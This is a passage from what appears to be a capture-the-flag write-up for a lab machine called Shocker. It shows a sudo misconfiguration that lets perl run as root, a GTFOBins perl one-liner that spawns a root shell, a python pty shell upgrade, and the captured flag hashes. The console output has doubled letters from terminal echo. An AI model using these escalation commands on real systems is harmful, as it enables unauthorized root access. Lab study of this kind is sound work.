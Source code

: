 
```console
shelly@Shocker:/usr/lib/cgi-bin$ ssuuddoo  --ll

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ 
```

A quick look a GTFO bins gives us a simple perl command to give us a root shell and the 2 flags!

https://gtfobins.github.io/gtfobins/perl/


```console
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'sudo perl -e 'exec "/bin/sh";'

# wwhhooaammii

root
# 
```

Note: Even though upgrading my shell made it look better, I still received the double letters

```console
# python3 -c 'import pty; pty.spawn("/bin/bash")'python3 -c 'import pty; pty.spawn("/bin/bash")'

root@Shocker:/usr/lib/cgi-bin# 
```
```console
root@Shocker:/home/shelly# ccaatt  uusseerr..ttxxtt

2ec24e11320026d1e70ff3e16695b233
root@Shocker:/home/shelly# 
```

```console
root@Shocker:~# ccaatt  rroooott..ttxxtt

52c2715605d70c7619030560dc1ca467
root@Shocker:~# 
```

GG
